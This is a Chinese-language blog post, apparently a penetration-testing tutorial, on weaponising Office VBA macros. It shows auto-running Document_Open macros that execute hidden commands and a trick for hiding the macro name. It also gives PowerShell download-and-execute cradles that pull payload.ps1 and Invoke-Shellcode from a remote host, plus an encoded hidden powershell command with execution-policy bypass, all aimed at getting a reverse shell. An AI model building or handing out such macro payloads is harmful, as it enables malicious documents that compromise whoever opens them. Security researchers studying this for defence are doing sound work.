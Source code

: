 ```yaml
---
title: "Office 宏的利用"
date: 2019-07-30T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["windows",'office']
categories: ["漏洞复现"]

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


在 Office 中宏指对文档样式, 字体, 排版, 格式修改等一系列操作的统称, 通过 VBA 来完成.

<!--more-->

## 文件格式

以 Word 举例, 一般分为三种格式 `.doc`, `.docx`, `.docm`. 其中 `.doc` 可保存带有宏的文档, 而 `.docx` 不能保存, 使用`.docm` 保存带宏文档时会在文件图标上添加提示宏的标志. 但对于任意文档, 都会有宏的安全警告.

在实战中, 一般使用 `.doc` 格式.

## 隐藏宏名

在当前文档中创建新宏.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151239.png)

在 `Project - Microsoft Word 对象 - ThisDocument` 中编辑宏.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151342.png)

代码如下.

```
Private Sub Document_Open()
    Dim cmd
    cmd = "cmd.exe /c whoami > C:\windows\Temp\test.txt"
    Call Shell(cmd, vbHide)
End Sub
```

`Document_Open` 指在文档被打开时调用的函数.

删除刚刚创建的宏.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151722.png)

完成后如下图.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151830.png)

保存文件, 选择 `.doc` 格式.

## 反弹 Shell

基本的命令执行.

```
Private Sub Document_Open()
    Dim cmd
    cmd = "cmd.exe /c whoami > C:\windows\Temp\test.txt"
    Call Shell(cmd, vbHide)
End Sub
```

powershell 执行.

```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/payload.ps1')
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Shellcode.ps1')
Invoke-Shellcode -Shellcode $buf
```

base64 编码.

```
Private Sub Document_Open()
    Dim cmd
    cmd = "powershell.exe -nop -w hidden -ep bypass -enc aQBmACgAWwBJAG4AdABQAHQAc......"
    Call Shell(cmd, vbHide)
End Sub
```

其余方式可看 msfvenom 中的 vba, vba-exe 等格式, 在此不再赘述.

注意 `-ep bypass` 设置执行策略.